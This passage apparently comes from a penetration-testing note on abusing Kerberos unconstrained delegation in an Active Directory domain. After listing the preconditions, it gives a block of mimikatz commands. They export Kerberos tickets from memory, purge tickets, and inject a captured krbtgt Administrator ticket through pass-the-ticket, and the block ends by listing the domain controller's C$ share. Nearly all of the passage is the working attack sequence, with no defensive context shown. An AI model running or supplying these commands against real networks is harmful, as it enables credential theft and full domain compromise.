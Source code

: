 Conditions of use:
- Requires `Administrator` permission
- Non-constrained delegation is enabled for machine accounts of hosts in the domain
- Domain Control Administrator Remote Access

```powershell
# Export tickets by host within the domain
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

# View tickets
mimikatz.exe "kerberos::list" "exit"

# Clear the ticket, you can use the absolute path
mimikatz.exe "kerberos::purge"
mimikatz.exe "kerberos::purge [ticket]"

# Import memory
mimikatz.exe "kerberos::ptt [0;16264b]-2-0-40e10000-Administrator@krbtgt-HACK.LOCAL.kirbi" "exit"

# Access the target disk
dir \\DC.hack.local\C$
```

![](./images/8.png#pic_center)
